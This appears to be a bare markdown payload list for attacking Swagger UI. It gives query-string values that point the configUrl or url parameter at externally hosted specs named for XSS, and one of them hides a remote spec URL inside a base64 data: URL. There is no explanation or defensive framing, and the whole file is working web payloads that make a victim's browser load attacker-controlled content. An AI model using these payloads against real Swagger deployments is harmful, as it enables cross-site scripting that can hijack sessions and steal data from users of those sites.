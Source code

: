 # swagger


?configUrl=https://raw.githubusercontent.com/z9nsis/swagger/main/xss-swagger.json
?url=https://raw.githubusercontent.com/z9nsis/swagger/main/xss-swagger.yaml
?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==


?configUrl=https://raw.githubusercontent.com/z9nsis/swagger/main/test.json